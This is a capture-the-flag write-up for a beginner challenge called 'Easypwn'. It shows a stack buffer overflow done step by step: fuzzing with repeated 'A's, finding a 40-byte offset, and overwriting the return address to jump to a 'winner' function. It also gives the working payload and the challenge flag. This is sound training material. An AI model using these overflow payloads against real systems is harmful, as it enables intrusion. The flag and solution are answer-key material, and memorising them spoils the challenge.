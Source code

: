 # Easypwn
Author: surprior

Flag: `EPT{S0meth1n6_2_ge7_u_5t4rt3d}`
## Description
```
A nice introduction to pwn. Download the files to find the vulnerability, and exploit the host below to get the real flag.

`nc {{host}} {{port}}`
```

## Provided challenge files
* [easypwn.tar.gz](easypwn.tar.gz)


## Writeup

Tried to run it locally and run a whole lot of `A`'s as I guess this is a standard buffer overflow attack:

```bash
─$ python -c 'print("A"*45)' | ./easypwn
Hello!
What's your name? 
Goodbye, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
zsh: done                python -c 'print("A"*45)' | 
zsh: segmentation fault  ./easypwn
```

`dmesg` shows 

```log
[2846036.186229] easypwn[3901999]: segfault at 4141414141 ip 0000004141414141 sp 00007ffe72b935c0 error 14
```

I finetune and figure out that 40 A's is the magic number:

```bash
python -c 'print("A"*40 + "ABCDEF")' | ./easypwn
```

`dmesg` now shows that I overwrite the `Return Instruction Pointer` and the program segfaults.

```log
[2822529.208171] easypwn[3525302]: segfault at 464544434241 ip 0000464544434241 sp 00007ffff38f76b0 error 14
```

So now I can overwrite the RIP register. And I need to figure out the base address of this program. Running `checksec` shows that PIE is disabled so it starts at `0x400000`

![checksec](ss-checksec.png)

Ghidra also starts there so it will be easy to see the addresses of functions I can jump to by overwriting the return address. And by chance there is a function called `winner` at address `0x401236` that prints the flag.

![winner](ss-winner.png)

So adding that after 40 A's I get the flag!

```bash
─$ python -c 'print("A"*40 + b"\x36\x12\x40".decode());' | nc io.ept.gg 30004

Hello!
What's your name? 
Goodbye, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6@!
You are Winner! Flag:
EPT{S0meth1n6_2_ge7_u_5t4rt3d}
```